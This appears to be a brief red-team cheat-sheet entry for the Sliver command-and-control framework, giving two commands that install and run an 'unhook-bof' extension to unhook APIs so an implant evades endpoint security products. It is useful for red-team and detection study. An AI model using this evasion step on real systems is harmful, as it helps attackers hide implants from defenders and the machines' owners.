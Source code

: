 # Sliver

Search Tag(s): #post-exploitation #defense-evasion #security-solutions #coff-loader #sliver

## 01 - Unhook APIs

> [!INFO]
> This will make your implant mostly invisible from most endpoint solutions. Use this technique often when executing offensive tools in the memory.

Install armory extension

```
sliver (IMPLANT_NAME) > armory install unhook-bof
```

Execute the COFF loader to unhook the APIs.

```
sliver (IMPLANT_NAME) > unhook-bof
```